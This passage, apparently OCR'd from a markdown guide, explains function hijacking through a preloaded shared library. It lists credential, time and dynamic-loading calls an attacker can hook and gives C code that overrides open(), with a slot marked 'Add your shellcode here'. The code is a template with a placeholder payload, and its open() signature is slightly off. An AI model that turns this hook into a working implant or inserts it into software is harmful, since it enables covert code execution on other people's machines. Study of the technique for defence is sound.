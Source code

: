 - `geteuid`
- `getegid`
- `setuid`
- `setgid`

### Time Functions
Hijacking these functions can allow an attacker to manipulate time-related behavior.

- `time`
- `gettimeofday`
- `clock_gettime`
- `sleep`

### Dynamic Library Functions
Hijacking these functions can allow an attacker to manipulate dynamic library loading.

- `dlopen`
- `dlsym`

### Example of Hijacking a Common Function (`open`)

Here’s an example of how to hijack the `open` function:

1. **Create the Hijacking Shared Library**

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <unistd.h>
#include <fcntl.h>

int (*old_open)(const char *pathname, int flags);

int open(const char *pathname, int flags) {
    if (fork() == 0) {
        // Child process: execute shellcode or custom logic
        printf("Hijacked open() called for file: %s\n", pathname);
        // Add your shellcode here or custom logic
        _exit(0);
    } else {
        // Parent process: wait for child to complete
        wait(NULL);
        // Call the original open function
        return old_open(pathname, flags);
    }
}

void __attribute__((constructor)) init(void) {
    old_open = dlsym(RTLD_NEXT, "open");
    if (!old_open) {
        fprintf(stderr, "Error: %s\n", dlerror());
        exit(EXIT_FAILURE);
    }
    printf("Hijack library initialized.\n");
}
```
